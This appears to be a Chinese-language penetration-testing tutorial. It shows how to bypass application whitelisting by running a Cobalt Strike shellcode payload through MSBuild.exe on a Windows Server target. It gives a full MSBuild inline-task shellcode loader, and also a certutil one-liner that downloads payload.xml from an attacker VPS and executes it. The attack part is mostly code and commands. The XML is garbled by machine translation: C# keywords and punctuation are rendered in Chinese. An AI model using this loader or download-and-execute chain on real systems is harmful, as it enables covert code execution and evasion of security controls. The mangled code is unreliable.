





环境配置
控制机：192.168.79.128 win7 x64
目标机：192.168.79.147 win2008 R2 x64
0x01 Cobalt Strike
运行服务：./TeamServer.exe 192.168.79.128 password
新建监听：Cobalt Strike->Listeners
添加C# payload：Attacks->Packages->Payload Generator

实际的渗透过程中，有时候x64的系统运行64位payload会出现MSBduild停止运行的情况。
0x02 构造payload.xml
把CS生成的C#payload 替换掉new byte [] {INSERT_SHELLCODE_HERE};
< Project ToolsVersion = “ 4.0 ” xmlns = “ http://schemas.microsoft.com/developer/msbuild/2003 ” >
<！ -此内联任务执行shellcode。- >
<！ - C：\ Windows \ Microsoft.NET \ Framework \ v4.0.30319 \ msbuild.exe SimpleTasks.csproj - >
<！ -保存此文件并执行上述命令- >
<！ -作者：Casey Smith，Twitter：@subTee - >
<！ -许可证：BSD 3条款- >
< Target Name = “ Hello ” >
< ClassExample />
</ Target >
< UsingTask
TASKNAME = “ ClassExample ”
TaskFactory = “ CodeTaskFactory ”
AssemblyFile = “ C：\ Windows \ Microsoft.Net \ Framework \ v4.0.30319 \ Microsoft.Build.Tasks.v4.0.dll ” >
< 任务 >
< Code Type = “ Class ” Language = “ cs ” >
<！[CDATA [
使用系统;
使用System.Runtime.InteropServices;
使用Microsoft.Build.Framework;
使用Microsoft.Build.Utilities;
public class ClassExample：Task，ITask
{
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[的DllImport（ “KERNEL32”）]
private static extern UInt32 VirtualAlloc（UInt32 lpStartAddr，
UInt32大小，UInt32 flAllocationType，UInt32 flProtect）;
[的DllImport（ “KERNEL32”）]
private static extern IntPtr CreateThread（
UInt32 lpThreadAttributes，
UInt32 dwStackSize，
UInt32 lpStartAddress，
IntPtr param，
UInt32 dwCreationFlags，
ref UInt32 lpThreadId
）;
[的DllImport（ “KERNEL32”）]
private static extern UInt32 WaitForSingleObject（
IntPtr hHandle，
UInt32 dwMilliseconds
）;
public override bool Execute（）
{
byte [] shellcode = new byte [] {INSERT_SHELLCODE_HERE};
UInt32 funcAddr = VirtualAlloc（0，（UInt32）shellcode.Length，
MEM_COMMIT，PAGE_EXECUTE_READWRITE）;
Marshal.Copy（shellcode，0，（IntPtr）（funcAddr），shellcode.Length）;
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread（0,0，funcAddr，pinfo，0，ref threadId）;
WaitForSingleObject（hThread，0xFFFFFFFF）;
返回true;
}
}
]]>
</ Code >
</ Task >
</ UsingTask >
</ Project >

0x03 使用方法
目标机CMD查看是否安装有NET4：for /r C:\Windows\Microsoft.NET\Framework\ %i in (MSBuild.exe) do @echo %i

实战过程中也可以用这条命令查找web目录
目标机运行payload.xml:c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe payload.xml
CMD一句话运行payload.xml:certutil -urlcache -split -f http://VPSip/payload.xml c:\windows\temp\payload.xml&&c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\windows\temp\payload.xml

0x04 结果

原文：https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-msbuild-exe/
payload.xml:https://gist.github.com/ConsciousHacker/5fce0343f29085cd9fba466974e43f17